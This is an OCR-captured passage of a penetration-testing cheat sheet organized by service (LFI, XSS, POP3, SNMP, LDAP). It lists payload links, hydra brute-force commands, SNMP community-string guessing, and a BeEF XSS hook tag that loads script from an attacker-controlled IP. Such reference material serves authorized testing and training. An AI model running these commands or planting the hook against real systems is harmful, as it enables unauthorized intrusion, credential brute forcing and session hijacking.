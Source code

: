 # Windows
/home/liodeus/wordlist/SecLists/Fuzzing/LFI/LFI-gracefulsecurity-windows.txt

# Both
/home/liodeus/wordlist/SecLists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt
Tools
kadimus --url <URL>
python lfisuite.py
Command injection
For command injection always use BurpSuite !

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection
Deserialization
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Insecure%20Deserialization
File upload
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files
SQL injection
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection

https://cobalt.io/blog/a-pentesters-guide-to-sql-injection-sqli
XSS
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection

beef-xss
cat /usr/share/beef-xss/config.yaml | grep user -C 1 # user / password
<script src="http://<IP>:3000/hook.js"></script>
Other web vulnerabilities
https://github.com/swisskyrepo/PayloadsAllTheThings
Upload a file with PUT
curl -X PUT http://<IP>/<FILE> -d @<FILE>  -v
KERBEROS - 88
https://www.tarlogic.com/en/blog/how-to-attack-kerberos/
POP3 - 110
Brute force
hydra -l <USER> -P <PASSWORDS_LIST> -f <IP> pop3 -V
hydra -S -v -l <USER> -P <PASSWORDS_LIST> -s 995 -f <IP> pop3 -V
Read mail
telnet <IP> 110

USER <USER>
PASS <PASSWORD>
LIST
RETR <MAIL_NUMBER>
QUIT
SNMP - 161
Brute force community string
onesixtyone -c /home/liodeus/wordlist/SecLists/Discovery/SNMP/common-snmp-community-strings-onesixtyone.txt <IP>
snmpbulkwalk -c <COMMUNITY_STRING> -v<VERSION> <IP>
snmp-check <IP>
Modifying SNMP values
http://net-snmp.sourceforge.net/tutorial/tutorial-5/commands/snmpset.html
LDAP - 389
Scans
nmap -n -sV --script "ldap* and not brute"
